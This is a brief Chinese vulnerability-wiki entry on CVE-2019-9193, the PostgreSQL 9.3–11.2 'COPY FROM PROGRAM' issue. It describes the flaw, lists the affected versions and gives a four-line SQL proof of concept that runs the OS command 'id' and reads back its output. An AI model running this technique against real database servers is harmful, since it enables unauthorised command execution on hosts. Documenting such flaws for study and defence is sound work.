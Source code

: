 （CVE-2019-9193）PostgreSQL 高权限命令执行漏洞
==============================================

一、漏洞简介
------------

PostgreSQL
9.3至11.2版本中的导入导出数据命令`COPY TO/FROM PROGRAM`存在操作系统命令注入漏洞。攻击者可利用该漏洞获取数据库超级用户权限，从而执行任意系统命令。

二、漏洞影响
------------

PostgreSQL 9.3至11.2

三、复现过程
------------

首先连接到postgres中，并执行如下POC：

    DROP TABLE IF EXISTS cmd_exec;
    CREATE TABLE cmd_exec(cmd_output text);
    COPY cmd_exec FROM PROGRAM 'id';
    SELECT * FROM cmd_exec;

![1.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-9193)PostgreSQL高权限命令执行漏洞/media/rId24.png)

![2.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-9193)PostgreSQL高权限命令执行漏洞/media/rId25.png)
